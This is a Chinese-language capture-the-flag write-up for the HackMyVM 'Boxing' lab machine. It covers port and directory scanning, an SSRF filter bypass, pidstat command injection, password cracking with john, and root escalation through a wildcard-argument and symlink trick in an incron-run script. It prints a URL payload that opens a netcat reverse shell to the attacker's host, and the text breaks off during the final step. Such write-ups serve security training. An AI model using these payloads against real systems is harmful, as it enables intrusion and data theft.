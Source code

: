 ```yaml
---
sidebar_position: 1
tags: [Easy, Linux, SSRF, 命令执行, 密码破解, 通配符利用, 定时任务, 逻辑漏洞]
title: Boxing
description: Boxing
---
```

# Boxing
## 端口扫描
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# nmap -sTCV -p- --min-rate 1000 192.168.0.106
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 09:51 EDT
Nmap scan report for 192.168.0.106 (192.168.0.106)
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 dd:74:2f:1c:d1:23:f6:1f:dd:3a:52:94:5d:8b:7c:d9 (ECDSA)
|_  256 96:fb:74:b2:7d:ac:66:40:e9:94:df:83:9a:a6:07:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Oxer
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:7A:69:8C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.92 seconds
```
## HTTP - 80
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# gobuster dir -u http://192.168.0.106/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.106/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/images               (Status: 301) [Size: 315] [--> http://192.168.0.106/images/]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 23854]
/about.html           (Status: 200) [Size: 9704]
/blog.html            (Status: 200) [Size: 11165]
/feedback.php         (Status: 200) [Size: 1616]
/css                  (Status: 301) [Size: 312] [--> http://192.168.0.106/css/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.0.106/js/]
/class.html           (Status: 200) [Size: 12460]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
进行目录扫描之后并没有发现什么特别之处, 查看网页的顶端我看到一个奇怪的内容 `boxing.hmv` 这可能存在域, 但是扫了一圈什么也没有
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412223234.png)
之后在访问 `facebook.php` 的时候发现有些内容返回
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412223352.png)
访问这个新的地址, 发现是一个输入 URL 的位置, 没有什么发现
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412221836.png)
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# gobuster dir -u http://staging-env.boxing.hmv/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,zip,war
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://staging-env.boxing.hmv/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,zip,war,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 287]
/.php                 (Status: 403) [Size: 287]
/index.php            (Status: 200) [Size: 1167]
/cache                (Status: 301) [Size: 332] [--> http://staging-env.boxing.hmv/cache/]
/.html                (Status: 403) [Size: 287]
/.php                 (Status: 403) [Size: 287]
/server-status        (Status: 403) [Size: 287]
Progress: 1323360 / 1323366 (100.00%)
===============================================================
Finished
===============================================================
```
发现一个新的文件夹 Cache , 访问在其中发现一些文件但是没有什么发现
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412222136.png)
查看其中的文件在 `.swp` 文件中可以发现一条消息内容, 显示没有提供重置密码的地方
```txt
Hello! You don't have a link to reset the password, and I've forgotten it! I tried Cassius! but it doesn't work; Contact me asap pease!

Cassius
```
之后我提交了一些 URL 地址, 发现内部存在过滤, 我感觉存在 SSRF 漏洞可以利用一下
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412222634.png)
在这里会进行一系列的校验, 但是要求前缀是 `boxing.hmv` 所以就需要一些 Bypass 的手段
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412224955.png)
随后我本来想的是远程包含, 但是试了一下没用, 只能进行内部端口探测了
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# ffuf -u 'http://staging-env.boxing.hmv/index.php?url=boxing.hmv@localhost:FUZZ' -w <(seq 1 65000) -fs 1167

80                      [Status: 200, Size: 25021, Words: 10556, Lines: 702, Duration: 993ms]
5000                    [Status: 200, Size: 2367, Words: 828, Lines: 96, Duration: 17ms]
:: Progress: [65000/65000] :: Job [1/1] :: 4651 req/sec :: Duration: [0:00:14] :: Errors: 0 ::
```
随后访问这个 5000 端口, 在页面中要求给出一个 ProcessName , 如果使用 POST 传参没有任何用处, 但是使用 GET 传参就可以看到其输出信息, 询问 GPT 后了解到这是 `pidstat` 命令的执行输出, 那么就有可能存在命令注入的问题
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412230948.png)
我寻找到了 [pidstat](https://gtfobins.github.io/gtfobins/pidstat/) 这个文章, 其中提到了一种命令执行的方式, 但是输入之后好像存在过滤, 所以还需要做一点措施
> 看了一下 WP发现是 %2B 可以过去, 懵逼的我

![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240413162128.png)

随后利用这个来获取到一个反向 Shell
```url
http://staging-env.boxing.hmv/index.php?url=boxing.hmv@localhost:5000?processName=asd%2B-e%2Bnc%2B192.168.0.104%2B4444%2B-e%2B/bin/bash
```
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240413162404.png)
## 后渗透

### www-data --> cassius
随后在 dev 目录下发现一个新的 db 文件, 下载到本地进行查看
```bash
(remote) www-data@boxing:/var/www/dev$ ls
boxing_database.db  cache  index.php
```
随后从这个文件中发现一个密码
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# sqlite3 boxing_database.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints. 
sqlite> SELECT * FROM users;
1|cassius|$2b$05$gPKe1EUBPZidX/j3qTDapeznU4CMfkpMd0sQhgehhhoG/pwc4OnVu
```
随后使用 John 进行破解, 发现破解不了, 在之前有一个文件中提及到其使用过 `Cassius!`
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# john hash.txt -w=password.txt -rules=best64
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Cassius!123      (?)   
1g 0:00:00:00 DONE (2024-04-13 04:34) 50.00g/s 1800p/s 1800c/s 1800C/s Cassius!..Cassio
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### cassius --> root
使用上面得到的密码进行登陆, 在寻找中发现在 `/opt/sos` 目录下存在一些特殊的内容
```bash
cassius@boxing:/opt/sos$ ls
incrontab.sh  logs  sos.sh
cassius@boxing:/opt/sos$ cat incrontab.sh 
#!/bin/bash

echo '/etc/apache2/sites-available/000-default.conf IN_MODIFY systemctl restart apache2' | incrontab -
echo '/etc IN_DELETE,IN_MODIFY,IN_MOVED_FROM /bin/echo "File: $@/$# => $%" > /root/user_flag.log' | incrontab -
echo '/home/cassius/user.txt IN_ATTRIB /opt/sos/sos.sh' | incrontab -
```
询问 GPT 后了解到这是在使用 `incrontab` 工具来设置文件系统监视器的规则, 其中我们唯一可以使用的就是第三条, 当 `/home/cassius/user.txt` 的文件的属性发生改变的时候就会执行 `/opt/sos/sos.sh`
```bash
cassius@boxing:/opt/sos$ cat sos.sh 
#!/bin/bash

logs="/opt/sos/logs/output-logs.txt"
rm $logs
exec &>$logs

cd /home/cassius
file *
ss -altupn
last -a
w
ps aux
top -n 1
lsof

for user in $(cut -f1 -d: /etc/passwd); do
echo "Cron jobs for $user:"
crontab -u $user -l
done

tail /var/log/syslog
sha256sum /bin/* /sbin/* /usr/bin/* /usr/sbin/*

chmod 700 $logs
```
:::note[查看这个脚本我确定了两件事情]

- `file *` : 这个估计可以通配符利用一波, 查看 [gtfobins ](https://gtfobins.github.io/gtfobins/file/)发现可以利用这个来读取文件
- 前后文件的权限发生了变化, 所以可以借助时间差去把文件拷贝出来

:::
所以我们就可以开始相关的利用
```bash
cassius@boxing:~$ touch -- -f
cassius@boxing:~$ ln -sv /root/root.txt root
cassius@boxing:~$ ls
-f  root  user.txt
```
之后开启一个新的终端执行命令来利用时间差拷贝文件
```bash
cassius@boxing:/tmp$ while :; do cp /opt/sos/logs/output-logs.txt /tmp/1.txt 2>/dev/null; done
```
随后修改 `user.txt` 文件权限就可以看到文件拷贝出来了